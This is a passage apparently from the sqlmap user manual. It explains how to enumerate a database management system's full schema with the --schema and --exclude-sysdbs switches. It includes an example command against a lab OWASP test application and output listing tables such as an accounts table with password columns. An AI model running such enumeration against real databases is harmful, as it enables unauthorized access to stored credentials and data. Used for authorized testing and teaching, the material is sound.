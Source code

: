 `Table: users`\
`[3 columns]`\
`+---------+---------+`\
`| Column | Type |`\
`+---------+---------+`\
`| id | INTEGER |`\
`| name | TEXT |`\
`| surname | TEXT |`\
`+---------+---------+`\
\
Note that on PostgreSQL you have to provide `public` or the name of a system database. That's because it is not possible to enumerate other databases tables, only the tables under the schema that the web application's user is connected to, which is always aliased by `public`.

#### Enumerate database management system schema

Switches: `--schema` and `--exclude-sysdbs`\
User can retrieve a DBMS schema by using this switch. Schema listing will contain all databases, tables and columns, together with their respective types. In combination with `--exclude-sysdbs` only part of the schema containing non-system databases will be retrieved and shown.\
Example against a MySQL target:\
`$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\`\
`chema--batch --exclude-sysdbs`

`[...]`\
`Database: owasp10`\
`Table: accounts`\
`[4 columns]`\
`+-------------+---------+`\
`| Column | Type |`\
`+-------------+---------+`\
`| cid | int(11) |`\
`| mysignature | text |`\
`| password | text |`\
`| username | text |`\
`+-------------+---------+`

`Database: owasp10`\
`Table: blogs_table`\
`[4 columns]`\
`+--------------+----------+`\
`| Column | Type |`\
`+--------------+----------+`\
`| date | datetime |`\
`| blogger_name | text |`\
`| cid | int(11) |`\
`| comment | text |`\
`+--------------+----------+`

`Database: owasp10`\
`Table: hitlog`\
`[6 columns]`\
`+----------+----------+`\
`| Column | Type |`\
`+----------+----------+`\
`| date | datetime |`\
`| browser | text |`\
`| cid | int(11) |`\
`| hostname | text |`\
`| ip | text |`\
`| referer | text |`\
`+----------+----------+`
